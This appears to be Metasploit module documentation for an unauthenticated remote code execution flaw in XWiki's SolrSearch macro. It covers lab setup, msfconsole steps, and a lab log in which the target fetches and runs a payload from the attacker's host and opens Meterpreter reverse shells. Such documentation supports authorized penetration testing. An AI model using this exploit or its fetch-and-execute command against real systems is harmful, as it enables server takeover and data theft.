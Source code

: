 ## Vulnerable Application

This module exploits a template injection vulnerability in the the XWiki Platform.
XWiki includes a macro called SolrSearch (defined in Main.SolrSearchMacros) that enables full-text search through the embedded Solr engine.
The vulnerability stems from the way this macro evaluates search parameters in Groovy, failing to sanitize or restrict malicious input.

This vulnerability affects XWiki Platform versions >= 5.3‑milestone‑2 and < 15.10.11, and versions >= 16.0.0‑rc‑1 and < 16.4.1.
Successful exploitation may result in the remote code execution under the privileges of the web server,
potentially exposing sensitive data or disrupting survey operations.

An attacker can execute arbitrary system commands in the context of the user running the web server.

### Setup a Linux Server to Host the XWiki

To set up a test environment:

1. Download and Install Ubuntu 18.04.6 LTS

Download the ISO from the official Ubuntu archive:
https://releases.ubuntu.com/18.04/

2. Install OpenJDK 17

```
wget https://github.com/adoptium/temurin17-binaries/releases/download/jdk-17.0.9%2B9/OpenJDK17U-jdk_x64_linux_hotspot_17.0.9_9.tar.gz
sudo mkdir -p /opt/java
sudo tar -xzf OpenJDK17U-jdk_x64_linux_hotspot_17.0.9_9.tar.gz -C /opt/java
export JAVA_HOME=/opt/java/jdk-17.0.9+9
export PATH=$JAVA_HOME/bin:$PATH
```

3. Download and Unpack Vulnerable XWiki

```
wget https://nexus.xwiki.org/nexus/content/groups/public/org/xwiki/platform/xwiki-platform-distribution-flavor-jetty-hsqldb/15.10.5/xwiki-platform-distribution-flavor-jetty-hsqldb-15.10.5.zip
```

```
unzip xwiki-platform-distribution-flavor-jetty-hsqldb-15.10.5.zip
```

4. Run XWiki

Go to the directory where you've unpack archive and run `start_xwiki.sh`

### Setup a Windows Server to Host XWiki

1. Download and Install Windows

Download Windows 10 ISO from the official Microsoft site:
https://www.microsoft.com/en-us/software-download/windows10

Follow standard installation steps in your hypervisor (e.g., VirtualBox, VMware, etc.).

2. Install OpenJDK 17

Download `.msi` file from this page

```
https://learn.microsoft.com/en-us/java/openjdk/download#openjdk-17
```

and install

3. Download and Unpack Vulnerable XWiki

```
https://nexus.xwiki.org/nexus/content/groups/public/org/xwiki/platform/xwiki-platform-distribution-flavor-jetty-hsqldb/15.10.5/xwiki-platform-distribution-flavor-jetty-hsqldb-15.10.5.zip
```

Open with 7-zip or another archiver and unpack

4. Run XWiki

Go to the directory where you've unpack archive and run `start_xwiki.bat`

## Verification Steps


1. Start msfconsole
1. Do: `use multi/http/xwiki_unauth_rce_cve_2025_24893`
1. Do: `set lhost [attacker IP address]`
1. Do: `set rhosts [target IP address]`
1. Do: `set rport [target port]`
1. Do: `run`

## Scenarios

```
msf6 > use multi/http/xwiki_unauth_rce_cve_2025_24893
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/xwiki_unauth_rce_cve_2025_24893) > set RHOSTS 192.168.19.136
RHOSTS => 192.168.19.136
msf6 exploit(multi/http/xwiki_unauth_rce_cve_2025_24893) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/xwiki_unauth_rce_cve_2025_24893) > run verbose=true

[*] Command to run on remote host: wget -qO ./oXsSiyiPG http://192.168.19.130:8080/TZr1rd35vcaOY2R1ivAgxA; chmod +x ./oXsSiyiPG; ./oXsSiyiPG &
[*] Fetch handler listening on 192.168.19.130:8080
[*] HTTP server started
[*] Adding resource /TZr1rd35vcaOY2R1ivAgxA
[*] Started reverse TCP handler on 192.168.19.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Extracting version...
[*] Extracted version: 15.10.5
[+] The target appears to be vulnerable.
[*] Building command for target...
[*] Uploading malicious payload...
[*] Client 192.168.19.136 requested /TZr1rd35vcaOY2R1ivAgxA
[*] Sending payload to 192.168.19.136 (Wget/1.19.4 (linux-gnu))
[*] Client 192.168.19.136 requested /TZr1rd35vcaOY2R1ivAgxA
[*] Sending payload to 192.168.19.136 (Wget/1.19.4 (linux-gnu))
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.19.136
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.19.136
[-] Failed to load client portion of stdapi.
[*] Meterpreter session 2 opened (192.168.19.130:4444 -> 192.168.19.136:36512) at 2025-08-23 23:42:12 -0400

[*] Meterpreter session 1 opened (192.168.19.130:4444 -> 192.168.19.136:36510) at 2025-08-23 23:42:12 -0400
meterpreter > sysinfo
Computer     : 192.168.19.136
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

